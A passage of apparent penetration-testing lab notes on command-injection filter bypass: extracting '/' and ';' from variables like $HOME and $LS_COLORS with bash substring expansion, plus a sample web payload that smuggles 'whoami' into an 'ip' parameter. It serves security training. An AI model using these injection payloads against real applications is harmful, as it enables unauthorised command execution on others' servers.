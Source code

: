 **Alternative Environment Variables:**
```bash
# Using $HOME
echo ${HOME:0:1}        # → /

# Using $PWD  
echo ${PWD:0:1}         # → /

# Using any absolute path variable
echo ${SHELL:0:1}       # → / (if SHELL=/bin/bash)
```

### Extracting Semicolon (;)

**Using $LS_COLORS Variable:**
```bash
# View LS_COLORS contents (truncated example)
kabaneridev@htb[/htb]$ echo ${LS_COLORS}
rs=0:di=01;34:ln=01;36:mh=00...

# Extract semicolon at position 10
kabaneridev@htb[/htb]$ echo ${LS_COLORS:10:1}
;
```

**Understanding the Extraction:**
```bash
# LS_COLORS structure: rs=0:di=01;34:ln=01;36...
# Position:            0123456789...
#                               ^
#                         Position 10 = ;
```

**Web Application Usage:**
```http
# Using semicolon + space for injection
ip=127.0.0.1${LS_COLORS:10:1}${IFS}whoami
# URL encoded: ip=127.0.0.1%24%7bLS_COLORS:10:1%7d%24%7bIFS%7dwhoami
```

### Environment Variable Discovery

**Finding Useful Variables:**
```bash
# List all environment variables
printenv

# Search for variables containing specific characters
printenv | grep ";"
printenv | grep "/"
printenv | grep "&"
printenv | grep "|"
```

**Common Variables with Useful Characters:**
```bash
PATH=/usr/local/bin:/usr/bin         # Contains /
LS_COLORS=rs=0:di=01;34             # Contains ;
PS1='$ '                            # Contains various symbols
TERM=xterm-256color                 # Contains -
```
